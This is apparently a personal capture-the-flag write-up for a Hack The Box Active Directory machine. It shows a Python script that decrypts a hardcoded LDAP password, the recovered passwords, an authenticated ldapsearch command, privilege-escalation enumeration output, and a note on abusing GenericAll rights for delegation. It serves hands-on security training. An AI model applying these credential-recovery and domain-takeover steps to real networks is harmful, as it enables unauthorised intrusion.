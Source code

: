 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #Delegation 

# Findings

## External
### Enumeration
![](https://i.imgur.com/XfSSbbk.png)
![](https://i.imgur.com/RB68laY.png)

![](https://i.imgur.com/i0AYq8v.png)
![](https://i.imgur.com/59khnmo.png)
- I made a python revering code and i decrypted the code
```python
import base64

def decrypt_password(enc_password, key):
    # Convert the Base64 encoded string back to byte array
    encrypted_bytes = base64.b64decode(enc_password)
    key_bytes = key.encode('ascii')
    
    # Prepare the array to hold the decrypted bytes
    decrypted_bytes = bytearray(len(encrypted_bytes))
    
    # Decrypt each byte
    for i in range(len(encrypted_bytes)):
        decrypted_bytes[i] = encrypted_bytes[i] ^ key_bytes[i % len(key_bytes)] ^ 223
    
    # Convert byte array back to string
    decrypted_password = decrypted_bytes.decode('ascii')
    
    return decrypted_password

# Given encrypted password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

# Decrypt the password
decrypted_password = decrypt_password(enc_password, key)
print("Decrypted Password:", decrypted_password)

```
- Password: ` nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`
### Gaining Access
![](https://i.imgur.com/vsC8XeY.png)
![](https://i.imgur.com/JDeVqes.png)
`ldapsearch -x -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb' "(objectClass=*)" | tee ldap` ![](https://i.imgur.com/ajJyJHL.png)
` support : Ironside47pleasure40Watchful `
## Internal
### Enumeration
```powershell
ÉÍÍÍÍÍÍÍÍÍÍ¹ Checking write permissions in PATH folders (DLL Hijacking)
È Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\
```
When I check BloodHound the User is in group Shared Support account and that group is a genericAll on he DC so, i can do delegations.
![[Pasted image 20240608081519.png]]
### Gaining Access
![](https://i.imgur.com/7nvsrUT.png)
### Maintaining Access
![](https://i.imgur.com/YEJVqgs.png)


# Random Notes